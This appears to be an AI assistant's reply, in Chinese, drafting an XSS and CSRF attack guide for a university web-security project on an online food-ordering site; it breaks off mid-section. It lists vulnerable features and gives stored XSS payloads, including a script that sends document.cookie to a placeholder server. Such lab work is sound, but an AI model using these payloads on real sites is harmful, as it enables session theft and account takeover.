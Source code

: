 完美 ✅！你这个是一个典型的在线点餐平台，功能包括注册登录、菜单创建、下单、订单查看。这个系统非常适合做 **XSS** 和 **CSRF** 的实战攻击练习，而且漏洞点几乎全覆盖了用户行为路径 🔥

---

# 🧨 EIE3117 Web #5 项目：XSS + CSRF 攻击手册

---

## 🎯 项目核心功能回顾（可攻击点）

| 功能                     | 潜在漏洞点                   |
|--------------------------|------------------------------|
| 用户注册/登录           | 登录态依赖 Cookie，可能无 Token |
| 用户资料（昵称、头像）  | 若页面输出未过滤，容易注入 XSS |
| 创建菜单                | 自由文本输入 = 高危 XSS 点 |
| 查看菜单 / 订单列表     | 页面展示内容 = XSS 传播载体 |
| 下单功能                | 一般是 POST，目标CSRF攻击 |
| 订单管理（餐厅）        | 用户权限+输入操作点 = 联动打击 |

---

# 🧪 一、XSS 攻击模板（跨站脚本）

---

## ✅ 1. Stored XSS（存储型） - 最佳利用点

> 攻击者向餐厅菜单名称或描述中插入恶意脚本，其他用户访问时触发

### 💣 攻击 Payload 示例：

```html
<script>
alert("XSS by Group 4");
</script>
```

或者更“实战”：

```html
<script>
fetch('https://your-server.com/steal.php?cookie=' + document.cookie)
</script>
```

### 🔥 注入位置建议：
